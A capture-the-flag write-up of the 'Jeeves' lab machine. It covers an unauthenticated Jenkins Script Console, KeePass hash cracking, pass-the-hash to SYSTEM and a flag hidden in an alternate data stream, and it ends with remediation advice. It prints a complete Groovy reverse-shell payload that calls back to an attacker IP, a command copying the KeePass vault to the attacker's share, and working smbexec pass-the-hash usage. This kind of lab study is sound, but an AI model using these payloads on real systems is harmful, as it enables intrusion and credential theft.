

|Property|Value|
|---|---|
|**OS**|Windows|
|**Difficulty**|Medium|
|**Release Date**|2017-11-11|
|**State**|Retired|
|**IP**|10.129.228.112|
|**Techniques**|Jenkins Script Console RCE, KeePass hash cracking, NTLM Pass-the-Hash, NTFS Alternate Data Streams|
|**Tags**|#windows #privesc #jenkins #keepass #ntds|

---
## Summary

Jeeves is a medium Windows machine hosting a IIS site on port 80 and a Jetty server on port 50000. Directory brute-forcing on port 50000 discloses `/askjeeves`, a Jenkins CI instance with no authentication configured. Jenkins' built-in **Script Console** allows arbitrary Groovy execution, which is abused to run a reverse-shell payload and obtain a shell as `kohsuke`. A KeePass database (`CEH.kdbx`) is found in the user's `Documents` folder; its master password is cracked offline with `john`, and the opened database discloses a cached NTLM hash for the local `Administrator` account. The recovered hash is used in a Pass-the-Hash attack via `impacket-smbexec` to obtain a `SYSTEM` shell. The root flag itself is hidden inside an NTFS **Alternate Data Stream** attached to a decoy file, requiring a stream-aware read to retrieve.

---
## Enumeration

### Nmap Scan

```
nmap -sC -sV jeeves.htb --open
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-14 15:45 EDT
Nmap scan report for jeeves.htb (10.129.228.112)
Host is up (0.036s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb2-time:
|   date: 2026-09-15T00:46:12
|_  start_date: 2026-09-15T00:43:24
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.27 seconds
```

Standalone SMB/RPC (135/445) confirm a Windows host that is not domain-joined (`workgroup: WORKGROUP`). Port 50000 runs **Jetty**, a Java servlet container often used to host Jenkins.

### Directory Enumeration

```
gobuster dir -u http://jeeves.htb:50000 -w /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt

===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jeeves.htb:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://jeeves.htb:50000/askjeeves/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================
```

`/askjeeves` redirects to `/askjeeves/`, which loads a **Jenkins** dashboard.  The instance has no login/authentication configured and every Jenkins feature, including job creation and the Script Console, is reachable anonymously.

---
## Foothold

### Jenkins Script Console RCE


#### Vulnerability

Jenkins ships with a built-in **Script Console** at `/script`, intended for administrators to run one-off Groovy snippets against the running Jenkins instance for maintenance and debugging. Because Groovy runs on the JVM with full access to Java's standard library, any code submitted there executes with the same OS-level privileges as the Jenkins service itself. When Jenkins is deployed without authentication the console becomes an unauthenticated remote code execution primitive: anyone who can reach `/script` can run arbitrary commands on the host.

#### Exploitation

A Groovy payload is submitted directly into the console at `http://jeeves.htb:50000/askjeeves/script`, functioning as a reverse shell:

```groovy
String host="10.10.15.80"; int port=9001; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

The script is pasted into the "Execute" text box on `/script` and run, causing the process spawned by Jenkins to connect back to a waiting listener.

---
## User Flag

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.15.80] from (UNKNOWN) [10.129.228.112] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```

A shell is obtained as `kohsuke`, the service account Jenkins runs under. The current working directory (`C:\Users\Administrator\.jenkins`) confirms Jenkins was installed under the `Administrator` profile, though the running account itself is unprivileged.

```
C:\Users\Administrator\.jenkins>dir c:\users
dir c:\users
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\users

11/08/2017  06:22 PM    <DIR>          .
11/08/2017  06:22 PM    <DIR>          ..
11/03/2017  11:07 PM    <DIR>          Administrator
11/05/2017  10:17 PM    <DIR>          DefaultAppPool
11/03/2017  11:19 PM    <DIR>          kohsuke
10/25/2017  04:46 PM    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   2,648,793,088 bytes free

C:\Users\Administrator\.jenkins>type c:\users\kohsuke\Desktop\user.txt
type c:\users\kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```

---
## Privilege Escalation

### Enumeration — Locating the KeePass Database

A filesystem-wide search for `.kdbx` files (the KeePass database extension) turns up a hit in `kohsuke`'s own `Documents` folder:

```
C:\Users\Administrator\.jenkins\secrets>dir /s /b C:\*.kdbx 2>nul
dir /s /b C:\*.kdbx 2>nul
C:\Users\kohsuke\Documents\CEH.kdbx
```

KeePass database files are AES/ChaCha-encrypted containers that store arbitrary credentials (passwords, notes, and even binary attachments like NTLM hashes) behind a single master password. If that master password can be recovered, the whole vault is exposed.

### Exfiltrating and Cracking the Database

The file is copied off the host over an SMB share hosted on the attacking machine:

```
C:\Users\kohsuke\Documents>copy CEH.kdbx \\10.10.15.80\share\CEH.kdbx
copy CEH.kdbx \\10.10.15.80\share\CEH.kdbx
        1 file(s) copied.
```

`keepass2john` extracts a crackable hash representation of the database's master-password-derived key:

```
keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

```
nano CEH.hash
```

`john` cracks the hash against `rockyou.txt`:

```
john --format=keepass --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:20 DONE (2026-09-14 16:47) 0.04980g/s 2737p/s 2737c/s 2737C/s nando1..moonshine1
```

The master password is recovered: **`moonshine1`**.

### KeePass Enumeration

Opening `CEH.kdbx` with the recovered master password:



An entry inside the vault discloses a stored NTLM hash for the local `Administrator` account:

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

Since the machine is a standalone (non-domain-joined) host, the local `Administrator` account and its NTLM hash are valid for authentication over SMB directly — no need to crack the hash itself, since NTLM authentication accepts the hash in place of the plaintext password (**Pass-the-Hash**).

### Exploitation — Pass-the-Hash

`impacket-smbexec` is used to obtain a semi-interactive command shell authenticated with the hash alone:

```
impacket-smbexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.228.112

Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

`smbexec` creates and runs a temporary Windows service through SMB/RPC (`svcctl`), so the resulting shell executes as `NT AUTHORITY\SYSTEM` rather than merely as `Administrator`, granting full control of the host.

---

## Root Flag

### Alternate Data Stream Retrieval

The expected root flag location doesn't yield a plain flag:

```
C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\users\administrator\desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,648,481,792 bytes free

C:\Windows\system32>type c:\users\administrator\Desktop\hm.txt
The flag is elsewhere.  Look deeper.
```

`hm.txt` is a decoy containing only a taunting message. Requesting the file with `dir /R` (which lists **NTFS Alternate Data Streams**, `ADS`, attached to each file) reveals a second, hidden data stream bound to the same file:

```
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\hm.txt

 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
               1 File(s)             36 bytes
               0 Dir(s)   2,648,481,792 bytes free
```

NTFS's Alternate Data Streams feature allows a single file to carry additional named data streams beyond its default, visible content (`::$DATA`); Windows Explorer, `dir` (without `/R`), and `type` all ignore these by default, making ADS a simple way to hide data in plain sight. Here, a stream literally named `root.txt` is attached to `hm.txt`. Standard tools cannot read it directly:

```
C:\Windows\system32>type c:\users\administrator\Desktop\hm.txt:root.txt:$DATA
The filename, directory name, or volume label syntax is incorrect.

C:\Windows\system32>type c:\users\administrator\Desktop\hm.txt:root.txt
The filename, directory name, or volume label syntax is incorrect.
```

`cmd.exe`'s `type` command does not parse the `file:stream` colon syntax over SMB in this context, and `more` hangs waiting on stdin without extracting the content either. PowerShell's `Get-Content`, however, has native, first-class support for named streams via its `-Stream` parameter:

```
C:\Windows\system32>powershell -Command "Get-Content C:\Users\Administrator\Desktop\hm.txt -Stream root.txt"

afbc5bd4b615a60648cec41c6ac92530
```

---

## Remediation

- **Unauthenticated Jenkins instance:** Never deploy Jenkins without authentication and authorization enabled. Enable Jenkins' built-in security realm (or an external SSO/LDAP provider) and restrict anonymous access to read-only, non-sensitive views at most.
- **Exposed Script Console:** Restrict access to `/script` to a small set of trusted administrators via Jenkins' role-based authorization strategy. Consider disabling the Script Console entirely in production environments where it is not actively needed.
- **Plaintext-adjacent credential storage:** A KeePass database containing a privileged NTLM hash was stored, unprotected by disk-level access controls, in a regular user's `Documents` folder. Store credential vaults on encrypted volumes with strict NTFS permissions, and avoid caching domain/local admin secrets in per-user files.
- **Weak KeePass master password:** `moonshine1` was crackable against a common wordlist in seconds. Enforce long, high-entropy master passwords and consider key-file or hardware-token-based unlocking in addition to a password.
- **NTLM hash reuse / Pass-the-Hash exposure:** Because NTLM authentication accepts a hash in place of a plaintext password, any disclosed hash for a privileged account is equivalent to full compromise. Disable NTLM where possible in favor of Kerberos, and rotate credentials immediately after any suspected disclosure.
- **Sensitive data hidden in Alternate Data Streams:** While used here only as a CTF flag-hiding mechanism, ADS can be abused in real environments to hide malicious payloads from casual file listings. Use ADS-aware antivirus/EDR scanning and avoid relying on ADS for genuine secret storage.

---

## References

- [Jenkins Security Advisory — Script Console](https://www.jenkins.io/doc/book/managing/script-console/)
- [KeePass — Password Database Format & Security](https://keepass.info/help/base/security.html)
- [Impacket — smbexec](https://github.com/fortra/impacket)
- [Microsoft Docs — NTFS Alternate Data Streams](https://learn.microsoft.com/en-us/sysinternals/downloads/streams)
- [MITRE ATT&CK — T1564.004: Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)